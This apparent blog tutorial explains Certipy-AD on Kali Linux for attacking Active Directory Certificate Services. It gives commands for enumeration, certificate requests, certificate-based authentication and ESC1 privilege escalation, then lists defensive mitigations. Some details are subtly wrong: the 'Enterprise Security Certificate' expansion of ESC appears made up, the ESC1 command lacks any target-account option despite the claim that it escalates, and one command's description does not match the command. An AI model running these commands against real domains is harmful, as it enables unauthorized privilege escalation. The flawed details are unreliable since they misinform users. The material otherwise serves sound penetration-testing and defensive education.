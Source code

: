 ```yaml
---
draft: false
title: Certipy-AD on Kali Linux Tools
linkTitle: certipy-ad
translationKey: certipy-ad-on-kali-linux-tools
weight: 620
description: This post delves into Certipy-AD, exploring its features, installation, while also discussing its real-world applications in penetration testing.
date: 2025-02-12
slug: certipy-ad-on-kali-linux-tools
tags:
  - kali tools
categories:
  - Kali linux
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
keywords: 
  - certipy-ad
featured_image: /images/kalilinux2.webp
---
```

## Introduction

In the world of cybersecurity and penetration testing, attacking Active Directory (AD) environments is a key focus for ethical hackers and security professionals. Microsoft Active Directory is widely used by organizations to manage users, computers, and resources, making it a prime target for adversaries. Kali Linux, a premier penetration testing distribution, offers a variety of tools for assessing AD security. Among these tools, **Certipy-AD** has emerged as a crucial utility for exploiting AD Certificate Services.

This blog post will explore **Certipy-AD**, its functionalities, installation, and how to use it effectively in penetration testing scenarios on Kali Linux.

---

## What is Certipy-AD?

**Certipy-AD** is a powerful Python-based tool designed to assess and exploit vulnerabilities in Active Directory Certificate Services (ADCS). It is particularly useful for detecting and exploiting misconfigurations related to certificate-based authentication in Active Directory environments. This tool enables attackers and security professionals to:

- Enumerate AD CS configurations
- Exploit privilege escalation vectors
- Perform account takeovers using certificate-based authentication
- Retrieve and abuse user and machine certificates

Understanding ADCS and its security implications is crucial for red teamers, penetration testers, and blue team defenders alike.

---

## Installing Certipy-AD on Kali Linux

Certipy-AD is not pre-installed in Kali Linux by default. However, installing it is straightforward and requires Python3 and Pip.

### Prerequisites

Before installing Certipy-AD, ensure that you have the necessary dependencies installed on your Kali Linux machine:

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install python3 python3-pip
```

### Installation Steps

You can install Certipy-AD using Pip as follows:

```bash
pip3 install certipy-ad
```

Once installed, verify the installation by running:

```bash
certipy -h
```

This command should display the available options and usage instructions.

---

## Using Certipy-AD for Active Directory Attacks

Certipy-AD provides multiple attack vectors for exploiting Active Directory Certificate Services. Below are some common use cases:

### 1. Enumerating ADCS Configurations

One of the first steps in attacking ADCS is enumeration. Certipy-AD allows users to gather information about CA servers, certificate templates, and potential misconfigurations.

Run the following command to enumerate ADCS configurations:

```bash
certipy find -u 'DOMAIN\Username' -p 'Password' -dc-ip <DomainControllerIP>
```

This will retrieve details about the CA servers, templates, and security settings.

### 2. Requesting a Certificate

If you identify a vulnerable certificate template, you can request a certificate using Certipy:

```bash
certipy req -u 'DOMAIN\Username' -p 'Password' -dc-ip <DomainControllerIP> -ca 'CAName' -template 'VulnerableTemplate'
```

This command requests a certificate using the specified template and CA. If the template is vulnerable, it may allow authentication or privilege escalation.

### 3. Using a Certificate for Authentication

After obtaining a certificate, you can use it to authenticate as the targeted user and potentially escalate privileges.

Convert the certificate to a format usable by Rubeus or Mimikatz:

```bash
certipy auth -pfx certificate.pfx -dc-ip <DomainControllerIP>
```

This enables authentication without requiring a password, potentially leading to further attacks.

### 4. Exploiting ESC1 and ESC2 Attacks

ADCS misconfigurations are classified into different **ESC (Enterprise Security Certificate) scenarios**, such as ESC1 and ESC2.

- **ESC1 Attack**: A user with enrollment rights can request a certificate for a higher-privileged account.
- **ESC2 Attack**: Exploiting misconfigured certificate templates to obtain high-privilege access.

To exploit an ESC1 vulnerability:

```bash
certipy req -u 'LowPrivUser' -p 'Password' -dc-ip <DomainControllerIP> -ca 'CAName' -template 'ESC1Template'
```

Using the obtained certificate, authenticate as a high-privileged user and escalate access.

---

## Defensive Measures and Mitigations

While Certipy-AD is an excellent offensive tool, defenders must take precautions to secure ADCS. Here are some key mitigation strategies:

1. **Limit Certificate Enrollment Permissions**: Restrict who can request certificates to prevent unauthorized access.
2. **Monitor Certificate Requests**: Implement logging and alerting for certificate-related activities.
3. **Disable Unused Certificate Templates**: Remove or restrict insecure templates.
4. **Use Strong Authentication Methods**: Avoid weak authentication mechanisms and enforce multi-factor authentication (MFA).
5. **Regular Security Audits**: Perform regular security assessments to identify and remediate misconfigurations.

---

## Conclusion

Certipy-AD is a powerful tool that enhances the ability of penetration testers and red teamers to identify and exploit weaknesses in Active Directory Certificate Services. However, organizations can significantly improve their security posture by understanding how these attacks work and implementing appropriate defensive measures.

By leveraging Certipy-AD on Kali Linux, ethical hackers can simulate real-world attacks and help organizations strengthen their defenses against certificate-based threats.

For security professionals, continuous learning and proactive security assessments are key to staying ahead of attackers. Explore Certipy-AD, test responsibly, and contribute to a more secure cyber environment.

---

### Additional Resources

- [Certipy-AD GitHub Repository](https://github.com/ly4k/Certipy)
- [Active Directory Certificate Services Overview](https://docs.microsoft.com/en-us/windows-server/identity/ad-cs/)
- [MITRE ATT&CK - ADCS Attacks](https://attack.mitre.org/techniques/T1552/004/)

By staying informed and proactive, both red teams and blue teams can enhance their approach to Active Directory security. If you have any experiences or insights related to Certipy-AD, feel free to share them in the comments below!

